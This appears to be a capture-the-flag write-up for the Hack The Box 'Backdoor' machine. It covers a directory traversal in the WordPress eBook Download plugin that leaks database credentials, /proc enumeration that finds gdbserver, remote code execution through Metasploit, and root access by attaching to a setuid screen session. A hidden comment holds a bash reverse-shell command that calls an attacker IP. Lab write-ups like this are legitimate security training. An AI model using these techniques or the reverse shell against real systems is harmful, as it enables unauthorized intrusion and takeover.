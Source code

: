 ```yaml
---
title: Hackthebox - Backdoor
date: 2021-11-22 00:00:00 +0530
categories: [hackthebox, linux]
tags: [wp-plugin, ebook download 1.1, lfi, rfi, suid screen, cve-2017-5618, proc directory]     # TAG names should always be lowercase
image: /assets/img/posts/backdoor/backdoor_banner.png
---
```



![](/assets/img/posts/backdoor/backdoor_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.125 backdoor.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Web server is running wordpress.

with wpscan, collected some information.

* : WordPress version 5.8.1 identified
* [i] User(s) Identified: admin

## WP-Plugin:eBook Download 1.1 - LFI/RFI

Manually go through wp common directories `/wp-content` and `/wp-includes`

* `/wp-includes` allowed indexing but nothing interesting there.
* `/wp-content`is not indexing but `/wp-content/plugins` directory is allowed indexing

there is a plugin in plugins directory

![](/assets/img/posts/backdoor/index-plugin.png)

```bash
❯ searchsploit wordpress ebook download
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                          | php/webapps/39575.txt
----------------------------------------------------------------------------------- ---------------------------------
```

And right off the bat found Directory Traversal vulnerability in WordPress Plugin eBook Download 1.1 from searchsploit.

its simply allowed file inclusion from `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

with lfi, get the `wp-config.php` file and db creds: `wordpressuser:MQYBJSaD#DxG6qbm`.

**Don't get anything interesting**

Moving on to port 1337 but not able to identify the service.

## identifying services with `/proc`

we have lfi that means we can read system file and use this ability and try to find the port 1337 service.

in linux everything is file even a running process and we can read every process from `/proc`; **Source: proc [man page](https://man7.org/linux/man-pages/man5/proc.5.html)**

**`/proc`** : The proc filesystem is a pseudo-filesystem which provides an interface to kernel data structures.

**`/proc/[pid]`** : subdirectories Each one of these subdirectories contains files and subdirectories exposing information about the process with the corresponding process ID.

**`/proc/[pid]/cmdline`** : This read-only file holds the complete command line for the process.

I use burp intruder to brute force pid to find the process.

![](/assets/img/posts/backdoor/proc-is-useful.png)

For current boot, the PID for service that running on port 1337 in `862`
```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

## GDBserver Remote Payload Execution

Port 1337 is running gdbserver. We can connect to this service with gdb.

![](/assets/img/posts/backdoor/gdb-connect.png)

There is a very old (2013) technique on gdbserver to RCE from [jbremer.org](http://jbremer.org/turning-arbitrary-gdbserver-sessions-into-rce/)

To make this easy there is a metasploit module based on this exploit.

![](/assets/img/posts/backdoor/gdb-msf-module.png)

Running msf module and get shell on the box

![](/assets/img/posts/backdoor/run-msf.png)

<!--
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.40/4141 0>&1"
-->

# Privesc

## suid: `screen`

Running find command for setuip binary on the box and found `/usr/bin/screen` with setuip bit permission.

![](/assets/img/posts/backdoor/find-setuid.png)

And  screen version `Screen version 4.08.00 (GNU) 05-Feb-20`

There is a [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/) in GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of log file permissions.

Found exploit: https://github.com/XiphosResearch/exploits/tree/master/screen2root

But looks like this version of screen is not vulnerable for this exploit.

Another thing we can check is screen sessions with `screen -ls <username>/`
```bash
(remote) user@Backdoor:/etc$ screen -ls user/
No Sockets found in /run/screen/S-user.
```

And because screen command have suid permission we can also view root user sessions.
```bash
(remote) user@Backdoor:/etc$ screen -ls root/
There is a suitable screen on:
	53053.root	(11/22/21 07:35:40)	(Multi, detached)
1 Socket in /run/screen/S-root.
```

And there is one session active named `root`. We can access it with `screen -x <username>/<session-name>`
```bash
screen -x root/root
```
